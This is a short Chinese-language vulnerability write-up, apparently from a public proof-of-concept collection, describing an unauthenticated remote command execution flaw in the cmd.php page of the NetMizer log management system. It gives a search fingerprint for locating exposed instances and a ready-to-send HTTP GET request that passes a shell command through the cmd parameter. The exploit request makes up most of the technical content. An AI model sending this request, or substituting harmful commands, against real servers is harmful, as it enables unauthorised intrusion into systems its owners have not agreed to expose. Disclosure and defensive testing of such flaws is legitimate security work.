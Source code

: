 # NetMizer 日志管理系统cmd存在命令执漏洞

### 一、漏洞描述
NetMizer 日志管理系统 cmd.php中存在远程命令执行漏洞，攻击者通过传入 cmd参数即可命令执行

### 二、影响版本
<font style="color:#000000;">NetMizer</font>

### 三、资产测绘
```plain
title="NetMizer 日志管理系统"
```

![1720677624454-6b76b40a-5923-426e-9d81-63dd9d76617b.png](./img/2_8as_pka3_kmJuE/1720677624454-6b76b40a-5923-426e-9d81-63dd9d76617b-579033.png)

### 四、漏洞复现
```plain
GET /data/manage/cmd.php?cmd=id HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![1720677875524-4205a312-6ae1-42a1-b263-bfa5aedcc9f1.png](./img/2_8as_pka3_kmJuE/1720677875524-4205a312-6ae1-42a1-b263-bfa5aedcc9f1-955410.png)



> 更新: 2024-08-12 17:48:54  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/hi1upuiio8gsogz8>